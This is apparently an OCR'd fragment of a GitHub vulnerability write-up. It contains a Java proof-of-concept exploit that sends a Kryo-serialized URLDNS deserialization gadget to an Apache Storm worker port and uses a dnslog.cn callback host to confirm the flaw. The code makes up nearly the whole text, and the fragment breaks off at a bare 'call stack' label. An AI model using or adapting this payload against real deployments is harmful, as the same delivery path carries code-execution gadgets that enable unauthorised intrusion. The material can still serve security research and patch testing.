 ```java

    public static KryoValuesSerializer getSerializer() throws MalformedURLException {
        HashMap<String, Object> conf = new HashMap<>();
        conf.put("topology.kryo.factory", "org.apache.storm.serialization.DefaultKryoFactory");
        conf.put("topology.tuple.serializer", "org.apache.storm.serialization.types.ListDelegateSerializer");
        conf.put("topology.skip.missing.kryo.registrations", false);
        conf.put("topology.fall.back.on.java.serialization", true);
        return new KryoValuesSerializer(conf);
    }

    public static void main(String[] args) {
        try {
            // Payload construction
            String command = "http://5lgqlw.dnslog.cn";
            ObjectPayload gadget = URLDNS.class.newInstance();
            Object payload = gadget.getObject(command);
            // Kryo serialization
            byte[] bytes = buffer(getSerializer(), payload);
            // Send bytes
            Socket socket = new Socket("172.27.93.132", 6700);
            OutputStream outputStream = socket.getOutputStream();
            outputStream.write(bytes);
            outputStream.flush();
            outputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

        }


```
![](11.png)
调用栈: